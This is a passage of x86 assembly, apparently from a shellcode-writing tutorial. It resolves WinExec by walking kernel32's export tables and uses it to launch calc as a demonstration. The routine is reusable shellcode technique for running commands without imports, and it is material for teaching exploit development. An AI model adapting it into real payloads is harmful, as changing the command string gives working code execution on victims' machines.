 ```c

		; get address of functions ordinal table
		mov ecx, [eax + 24h]			; get RVA of functions ordinal table
		add ecx, ebx					    ; get address of functions ordinal table
		mov [ebp - 10h], ecx			; store address of functions ordinal table
	
		; loop through exported function name pointer table and find position of WinExec
		xor eax, eax
		xor ecx, ecx
			
		findWinExecPosition:
			mov esi, [ebp - 14h]		; esi = pointer to WinExec
			mov edi, [ebp - 0ch]		; edi = pointer to exported function names table
			cld											; https://en.wikipedia.org/wiki/Direction_flag
			mov edi, [edi + eax*4]	; get RVA of the next function name in the exported function names table
			add edi, ebx				    ; get address of the next function name in the exported function names table

			mov cx, 8					      ; tell the next-comparison instruction to compare first 8 bytes
			repe cmpsb					    ; check if esi == edi
				
			jz WinExecFound
			inc eax									; increase the counter
			cmp eax, [ebp - 4h]			; check if we have looped over all the exported function names
			jne findWinExecPosition	
				
		WinExecFound:		
			mov ecx, [ebp - 10h]		; ecx = ordinal table
			mov edx, [ebp - 8h]			; edx = export address table

			; get address of WinExec ordinal
			mov ax, [ecx + eax * 2]	; get WinExec ordinal
			mov eax, [edx + eax * 4]; get RVA of WinExec function
			add eax, ebx				    ; get VA of WinExec

			jmp InvokeWinExec

		InvokeWinExec:
		  xor edx, edx				  	; null byte
			push edx					
			push 636c6163h				  ; push calc on the stack
			mov ecx, esp			    	; ecx = calc
	
			push 10  					      ; uCmdSHow = SW_SHOWDEFAULT
			push ecx								; lpCmdLine = calc
			call eax 								; call WinExec
			
		; clear stack
		add esp, 1ch							; local variables				
		add esp, 0ch							; pushes for ebp and WinExec
		add esp, 4h								; pushes for WinExec invokation
		pop ebp
		ret
	main endp
	end main
```
